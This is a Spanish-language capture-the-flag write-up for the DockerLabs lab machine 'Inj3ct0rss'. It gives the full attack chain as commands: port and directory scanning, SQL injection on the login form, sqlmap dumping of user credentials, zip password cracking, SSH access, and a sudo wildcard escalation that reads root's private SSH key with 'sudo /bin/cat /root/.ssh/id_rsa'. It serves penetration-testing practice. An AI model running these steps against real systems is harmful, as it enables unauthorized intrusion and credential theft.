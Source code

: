 # MACHINE INJ3CT0RSS 

## INFORMACIÓN GENERAL

- **Plataforma**: DockerLabs
- **Sistema Operativo**: Linux
- **Dificultad**: Medio

![machine_dockerlabs](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/machine_dockerlabs.png)

## DESPLIEGUE

```python
bash autodeploy.sh inj3ct0rss.tar
```

## RECONOCIMIENTO
```python
nmap -p- -sCV -sS --min-rate 5000 -vvvv -n -Pn 172.17.0.2
```
```ruby
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-03-06 15:53:54 -05 for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fd:f8:90:30:73:b2:51:20:2d:cb:7a:77:67:69:dc:e5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBExyKJmqP02QSpyCbDMVK8cvWcsJmAHf2WEyjBSElOMDSrdK7mawGufQtAKuf6aCZGWjM8HtOa++iu47gY/224g=
|   256 ad:54:3f:1a:45:7c:b5:97:fb:5b:a8:fb:63:1d:1d:0b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAxCKvhvk5MXJSo9kabqvQHsuRDOnSE0M+Z6El2r9+4X
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Inj3ct0rs CTF - P\xC3\xA1gina Principal
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Tenemos el puerto 80 abierto, hay un Servicio Web alojado, podemos ir ver con que nos encontramos 
![web80](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/web80.png)
Vemos como ya nos está dando un poco de informacion sobre el CTF, vamos a enumerar directorios a ver si nos encuentra algo interesante a parte del login y el register que muestra la web

## ENUMERACIÓN
```python
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404,500,502
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php,xml,csv
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/login.php            (Status: 200) [Size: 1039]
/register.php         (Status: 200) [Size: 1053]
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 4025]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
```
# EXPLOTACIÓN
Vemos que no tenemos mucha informacion sobre directorios por detras, entonces como nos dice que SQLi es unas de las caracteristicas del CTF, vamos a probar si funciona en
el inicio de sesion

![sqli](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/sqli.png)
![sqlilogin](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/sqlilogin.png)

Nos ha iniciado sesión mediante SQLi eso indica que es vulnerable, para cerciorarse quize hacer las inyecciones interceptando el trafico con Burpsuite, pero cuando tratamos de inyectar comandos
o intentar logearse BurpSuite nos muestra un codigo de estado 302 -> Found, y no nos envia a `welcome.php`, al parecer esta redireccionando a una pagina que puede indicar un inicio de sesion 
exitoso o erroneo asi este con URL Encode

![burpsuite_prueba](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/burpsuite_prueba.png)

Entonces vamos a guardar la request para poder enumerarlo con `SQLMap` 

![request](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/request.png)

### ENUMERACIÓN CON SQLMAP 
1. ENUMERACION DE BASES DE DATOS
```ruby
sqlmap -r req --dbs --batch
```
![enumeracion_bd](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/enumeracion_bd.png)
Vemos que nos enumera todas las bases de datos, pero la que mas causa curiosidad es `injectors_db`

2. ENUMERACIÓN DE TABLAS DE LA BD `injectors_db`
```ruby
sqlmap -r req -D injectors_db --tables
```
![enumeracion_tables](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/enumeracion_tables.png)

Solo existe una tabla de nombre `users` vamos a seguir enumerando, ahora columnas

3. ENUMERACIÓN DE COLUMNAS DE LA TABLA `users`
```ruby
sqlmap -r req -D injectors_db -T users --columns
```
![enumeracion_columns](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/enumeracion_columns.png)

4. Tenemos los nombres de las columna, interesante `username`, `password`, seguiremos enumerando
```ruby
sqlmap -r req -D injectors_db -T users -C password,username --dump
```
![user_password](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/user_password.png)

Vemos que temos credenciales, probamos por SSH y no tenemos resultado, pero hay una password sospechosa que dice `no_mirar_en_eeste_directorio`, pero como somos hackers
y no le tenemos miedo a nada, vamos a mirarlo :V 

![comprimido_zip](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/comprimido_zip.png)

Tenemos un comprimido de nombre `secret.zip`, vamos a descargarlo a ver si podemos descomprimirlo 
```ruby
wget 172.17.0.2/no_mirar_en_este_directorio/secret.zip
```
Una vez descargado el `.zip`. podemos ver algunos metadatos, muchas vece evidencia informacion importante
```python
exiftool secret.zip
```
![exiftool](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/exiftool.png)

Vemos que dentro del `.zip` existe un archvito llamado `confidencial.txt` que nos llama la atencion, vamos a intentar descomprimirlo

```python
unzip secret.zip
```
Esta protegido con una password, entonces vamos a crackearlo con el siguiente comando
```python
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt secret.zip
```
- **fcrackzip**: Herramienta utilizada para romper contraseñas de archivos .zip,ataques mediante fuera bruta y diccionario
- **-v**: Muestra información detallada del progreso.
- **-u**: Verifica si la contraseña es correcta al intentar descomprimir el archivo.
- **-D**: Usa un ataque de diccionario, probando contraseñas desde un archivo de texto.
- **-p** /path/to/wordlist.txt: Especifica el archivo de diccionario con las posibles contraseñas.

OJO: Se puede crackear tambien con JohnTheRipper, extrayendo el hash del .zip y luego aplicar el ataque de fuerza bruta con el diccionario de rockyou.txt

![fcrackzip](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/fcrackzip.png)

ahora si podemos comprimir con éxito y podemos observar credenciales del usuario `ralf`
![ralf](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/credential_ralf.png)

Vamos a logearse por SSH con las credenciales que acabamos de encontrar
```python
ssh ralf@172.17.0.2
```
![hash_ralf](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/hash_ralf.png)

Vemos que tenemos un hash MD5 que esta en el archivo user.txt pero no podemos descubrir su contenido en texto claro

# ESCALADA DE PRIVILEGIOS 
Si hacemos `sudo -l` vemos que el usuario capa puede hacer uso de un binario que se llama `busybox`, vamos a [GTFObins](https://gtfobins.github.io/)
OJO: Pero solo con el contenido de un directorio de nombre /nothing/*

![busybox](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/busybox.png)

Como existe un wildcard podemos escapar asi como se muestra en la siguiente captura:
![wildcard](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/wildcard.png)

como el usuario capa podemos escalar privilegios mediante el binario cat 
![capa_cat](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/capa_cat.png)

Vamos a aprovecharnos de la Private Key del usuario Root ya que tenemos la capacidad de leerlo
```ruby
sudo /bin/cat /root/.ssh/id_rsa
```
Copiamos y pegamos en un archivo que crearemos en nuestra maquina local atacante, y le damos permisos 
```python
chmod 600 keyroot
```
una vez hecho todo eso probamos logearse con la clave privada de root 
![root](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/inj3ct0rss/root.png)


# HEMOS RESUELTO LA MAQUINA


## ELIMINAR MAQUINA
```ruby
ctrl + c 
```




